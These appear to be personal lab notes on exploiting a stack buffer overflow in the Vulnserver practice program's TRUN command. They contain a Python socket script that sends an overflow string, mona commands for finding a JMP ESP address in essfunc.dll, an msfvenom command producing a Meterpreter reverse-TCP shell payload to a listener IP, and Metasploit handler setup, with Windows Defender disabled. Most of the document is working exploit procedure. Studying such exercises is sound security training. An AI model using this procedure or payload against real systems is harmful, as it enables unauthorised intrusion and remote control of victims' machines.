 #!/usr/bin/python
import socket

buf = "TRUN /.:/"
buf += "A" * 2000 #increase # to ensure it is susceptible to buffer overflow
#buf += "<randomly generated from wiremask>"
#buf += "\xxx\xxx\xxx\xxx" #translate from big to little endian
#buf += "\x90" * 16 #NOP sled
#buf += <shell code copied from output of msfvenom command>
s = socket.socket (socket.AF_INET, socket.SOCK_STREAM) # IP and TCP PORT

s.connect(("<TARGET IP/Windows box in this case>", 9999)) #connect to target ip and port
print s.recv(1024) #printing response

s.send(buf) # send value of buffer
print s.recv(1024) #print response

s.close() #close connection



run immunity.debugger as admin
run program
run python script (linops)

!mona modules -o
!mona jmp -r esp -m "essfunc.dll"

msfvenom -p windows/meterpreter/reverse_tcp lhost=10.50.31.3 lport=4444 -b '\x00' -f python

set up listener:
msfconsole -q
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
show option
set lhost <linuxip>
show options
run


turned off windows defender in this demo



should finish opening a meterpreter shell without using debugger
> sysinfo
